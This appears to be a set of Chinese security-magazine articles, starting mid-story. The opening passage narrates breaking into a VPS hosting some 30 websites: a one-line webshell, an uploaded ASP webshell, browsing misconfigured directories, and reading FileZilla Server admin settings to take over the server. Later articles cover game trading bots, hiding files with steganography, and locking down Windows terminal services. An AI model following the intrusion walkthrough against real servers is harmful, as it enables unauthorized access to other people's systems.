用一句话木马尝试了一下服务器上各个磁盘的信息，都是“Not Ready”，看来服务器做了权限设置。为了使用更方便，用一句话木马上传了一个 ASP 大马上去（经过测试，服务器不支持解析 `.aspx` 文件）。在大马里转了下，发现不能执行 cmd 命令，各个磁盘的根目录都不能列目录，网站所在目录的上级目录也没权限访问。`C:\Program Files\` 目录可以访问，但没找到什么可利用的软件。`C:\Documents and Settings\All Users\「开始」菜单\程序\` 目录也可以浏览，发现有个程序“AntiARP Stand-alone Edition”，下载了可执行文件的快捷方式，然后通过查看下载回来文件的属性得到了对应的可执行文件为 `C:\xxxsoft\AntiARP\AntiArp.exe`，因此知道了一个新目录 `C:\xxxsoft\`，用 ASP 大马尝试访问，竟然成功了。发现在这个目录下安装了很多服务器用的软件，比如 FileZilla Server、MySQL 等，如图4。

管理员应该还是做了些安全配置的，比如删除命令执行组件、为每个网站设置单独的用户、设置不可以浏览各个磁盘的根目录等，但权限设置得又不全，导致了获得网站 shell 后可以浏览某些敏感目录，一个通用的密码导致了服务器权限的陷落。

看到了 FileZilla Server，看到了提权的可能。记得 FileZilla Server 的管理员密码是保存在安装目录下的文件中的。用大马浏览 FileZilla Server 的安装目录 `C:\xxxsoft\FileZilla Server\`，可以浏览。用大马编辑该目录下的文件 `FileZilla Server Interface.xml`，发现了如下代码：

```xml
<FileZillaServer>
  <Settings>
    <Item name="Last Server Address" type="string">127.0.0.1</Item>
    <Item name="Last Server Port" type="numeric">14147</Item>
    ...
  </Settings>
</FileZillaServer>
```

进了服务器发现是一台 VPS 主机，上面居然有 30 多个网站，猜测可能是某人或某个公司购买了这台 VPS 主机然后给别人放网站的。这次轻松拿下这台 VPS 主机运气占了很大成分，运气好弱口令进了网站后台，又运气好发现了服务器管理员的密码。没有任何技术含量，大家莫笑。

# 浅谈网络游戏交易机器人

死神队长

相信很多朋友都玩过网络游戏，尤其是在游戏里收购游戏物品。每天手动收购非常繁琐，用按键精灵制作的自动交易又不效率，又不能后台挂着干别的事等，也很有可能导致交易 BUG（在处理和玩家交易时逻辑没做好），使得可以进行欺骗（指玩家放上物品后又取回物品，但是钱却到了对方的角色上）这是非常危险的。难道就没有既效率又有安全性又能后台挂机的自动交易程序吗？有的，它就是“交易机器人”，现在就来了解它。

外挂种类分三种，有挂机式的、作弊式的、以及恶意式的（这里所指的是利用游戏 BUG 进行恶意操作），例如随意 T 人、刷钱、复制装备等，相信到这大家都对外挂稍微了解了。

通过（图1）我们简单地了解到所有操作都交给服务端来处理，服务端相当于一个中介来保证双方的交易安全。接下来（图2）来了解下游戏中的交易机制。

首先从图中我们看到玩家向服务端发送交易信息数据包（告诉服务端要交易的玩家对象），接着服务端会检测对方是否开放交易（每个游戏的处理方式不一定一样，这里我以某回合制游戏举例），若玩家未开放交易会返回交易信息，一般就是“XXX玩家未开放交易”。这里假设接受交易，这样一来玩家与玩家N的交易就建立了。接着就是等待双方放入交易物品或金钱，然后就是等待交易标识，等待玩家（N）按下确认按钮，接着等待服务端反馈确认信息，当服务端确认玩家与玩家N都确认交易后，交易完成，然后向玩家与玩家N反馈交易信息（就是物品信息什么的）。这里简单地了解了游戏交易机制，这里聪明的朋友应该猜出交易机器人原理了吧，如果猜不出别着急（图3）。

# 安全第一

通过图3，想必大家都应该了解交易机器人的原理。无论做什么，一旦了解原理就觉得不难了。这里很多读者肯定会想到那些关于“强制交易”“刷钱之类”的问题，这里给各位读者简单讲解一下。

比如说刷钱吧，欺骗服务器的可能性基本不存在，一般类似这种BUG存在的可能性很小。除非程序员在设计游戏某模块后没有进行完整测试就开放，才会导致刷钱BUG。虽然不能欺骗服务器，但不意味着不能欺骗玩家。这种情况在游戏中有时也会碰到，打个比方：玩家A和玩家B交易，玩家A卖的是价值100万金币的宝石，玩家B毫不犹豫地放上了100万金币，交易成功了。这时玩家A傻眼了，明明是100万金币交易成功了，实际得到的才1金币。

说到这里，大家也应该有所了解了。

PS：玩腾讯微博的朋友可以收听我的微博ID：死神队长。好了，浅谈就到这结束了。

# 这样加密，足矣！



图1

如果你有些许安全意识的话，那么在与朋友进行文件传输之前一定会想到加密。犹记得以前有人在命令提示符下使用COPY命令来加密，如`Copy /b 1.jpg + JiaMi.txt 2.jpg`（千万不要忘记“/b”参数：以二进制形式合并文件，否则生成的jpg文件无法用看图软件打开，如图1）——将文本文件JiaMi.txt添加到图片文件1.jpg之后，生成2.jpg。查看时需要在2.jpg文件上单击鼠标右键，选择使用记事本程序来打开它，这样就可以在文件的最后看到原来JiaMi.txt文件的文本内容了（如图2）。



图2

后来开始流行在WinRAR中使用汉字作密码的方法（适用于各种文件）：首先在待加密的文件上单击鼠标右键选择“添加到压缩文件”，然后在弹出的“压缩文件名和参数”窗口中由“常规”切换至“高级”选项卡，接着单击“设置密码”按钮，再到记事本（或其它文本处理软件）输入汉字并选中复制，最后返回到WinRAR的“带密码压缩”窗口，分别在“输入密码”和“再次输入密码以确认”处执行Ctrl+V粘贴操作，点击“确定”按钮即可（如图3）。

注意：在记事本中选中几个汉字，在WinRAR中输入密码显示的就是几个黑圆点或星号；而在解密时无法直接通过切换成中文输入法来输入密码，因为每按一次键都会在WinRAR中出现一个密码位，只能在记事本中输入后复制粘贴。这种方法虽然简单，但加密效果非常好。不过如果你还是担心被暴力破解（只是机器运行速度和时间的问题），还可以在此基础之上再进行加密，建议大家不妨试一下SilentEye（“安眸之眼”）：它可以结合这两种加密方法的优点，将已经用汉字密码加密过的RAR文件添加到一个图片（或声音）文件中，而且可以再设置一层密码。



图3

SilentEye目前最高版本为0.4.0（下载地址略），安装程序“SilentEye-0.4.0-win32.exe”大小为16.82MB，直接双击进行安装。跟其它软件安装没什么两样，无非就是“Next”“I accept the agreement”、选择安装路径之类的傻瓜式操作。需要特别注意的是，在安装第四步“System integration”时，不要将软件所列出的.bmp和.jpg等图片及.wav声音文件选中，否则此类文件就会与SilentEye建立关联（如图4）。



图4



图5



图6



图7



图8

安装过程完成之后就可以直接运行SilentEye了。使用方法很简单：将事先准备好的一个图片文件或声音文件（建议：当待加密文件较小时使用图片文件，较大时使用声音文件，这样就不容易引起别人的怀疑）拖动到“SilentEye”主窗口中，立刻会显示图片内容。接着单击其右下角的“Encode”（编码/加密）按钮（如图5）。在弹出的“Encode Message”窗口中，可单击“Destination”（目标）后面的按钮进行存放路径设置；单击其右下方按钮（未添加待加密文件时显示“no file selected”）选择已经做过汉字密码加密的“JiaMi.RAR”文件；左边的文本输入框是用来加密文本信息的。单击选中底部左侧的“Enable encryption”（加密有效）后，会出现上方“Key”（密码）输入框，设置密码并输入两次确认（如图6），最后单击“Encode”按钮，即可在设置路径处得到一个能够正常双击调用看图软件打开的.BMP位图文件。

解密时，运行SilentEye之后，将待解密的“图片”文件拖动到SilentEye中（会直接显示图片内容）；然后单击左下角“Decode”（译码/解码）按钮，在弹出的“Decode message”窗口中同样要先单击选中“Encrypted data”（加密的数据），接着将之前设置的密码在其上的“Key”文本输入框中进行输入确认（如图7）。最后点击“Decode”按钮进行解密，Encrypted区域马上将受保护的“JiaMi.RAR”文件显示出来，单击它之后会提示选择存放路径，最终提示文件保存成功（如图8）。

怎么样，SilentEye没让你失望吧？

# 为终端服务巧设安全防线

郭建伟

小李是一家公司的网络管理员。为了便于工作，小李在公司的服务器上启动了终端服务，这样小李不管在任何地方都可以对服务器进行远程操控。不过某天当小李远程登录到服务器之后，发现服务器配置被修改得乱七八糟，而且公司网站也遭到了篡改。在服务器中明显发现了黑客入侵的痕迹，看来必定是黑客利用某些系统漏洞，破解了登录密码，使用终端服务轻松连接到服务器上，进而在系统中“胡作非为”的缘故。小李费了好大的劲，才将服务器恢复到正常状态。除了及时修复系统漏洞之外，如何保护终端服务的安全也是刻不容缓的事情。不过这难不倒小李，经过一番精心配置，终端服务果然变得更加安全和坚固了。事实证明，之后依然有黑客试图通过终端服务入侵服务器，不过他们终究没有得逞，只能落得铩羽而归的下场。

## 一、为多个终端服务找个安全助手

在默认情况下，当使用者通过终端服务/远程桌面登录到本机后，在其使用账户权限内，其行为几乎不受约束，可以对本机进行随心所欲的修改。这对本机安全性很不好，会将您精心配置的系统搞得面目全非，轻则造成系统运行异常，重则引起病毒入侵让系统彻底损坏。因此，对使用者操作行为进行必要约束就很有必要。使用“终端服务安全助手”这款小软件，就可以轻松实现上述要求。

在终端服务安全助手主窗口左侧的“远程桌面用户”中预设了“默认配置”项，可以针对所有连接本机的账户发挥作用。当然，您也可以创建新账户来设置相应约束条件。在该列表底部点击“添加”按钮，在新用户窗口（如图1）中输入用户名称、描述信息、密码等信息，勾选“设置账户有效期”项，可以设置具体日期范围，这样超过该时间范围后该账户就无法正常登录本机。点击“创建”按钮，完成该账户创建操作。



图1

在“远程桌面用户”列表中选择所需账户，在“安全策略”面板（如图2）中，针对系统常用安全属性提供了大量安全配置项目，勾选对应项目可激活相应约束条件，包括：

- 删除开始菜单中的“运行”菜单
- 禁止使用查找功能
- 禁止使用注册表编辑器
- 隐藏公共对话框的位置栏
- 禁止打开命令提示符
- 禁止访问Windows Update
- 删除网上邻居中的“整个网络”
- 禁止打开“工具”菜单中的“文件夹选项”
- 禁止修改密码
- 删除映射/断开网络驱动器
- 隐藏桌面图标
- 禁止Active Desktop
- 禁止锁定计算机
- 阻止删除打印机
- 禁止使用任务管理器
- 阻止添加打印机
- 禁止使用右键菜单



图2

在“IE策略”面板（如图3）中，针对IE浏览器常用配置项目提供了大量限制条件，包括：

- 隐藏IE工具栏
- 禁止IE全屏显示（F11键）
- 隐藏IE搜索框
- 关闭IE开发工具（F12键）
- 隐藏“收藏夹”菜单
- 禁止IE下载程序或文件
- 隐藏IE菜单栏
- 禁止使用“Internet选项”
- 禁用“文件”菜单的“打开”
- 禁用IE右键菜单
- 禁用“文件”菜单的“新建窗口”
- 关闭弹出窗口阻止程序
- 禁止通过IE打印
- 禁用“查看”菜单
- 隐藏“帮助”菜单
- 隐藏命令栏
- 禁用“文件”菜单“另存为”
- 关闭首次运行自定义设置
- 禁用导入和导出

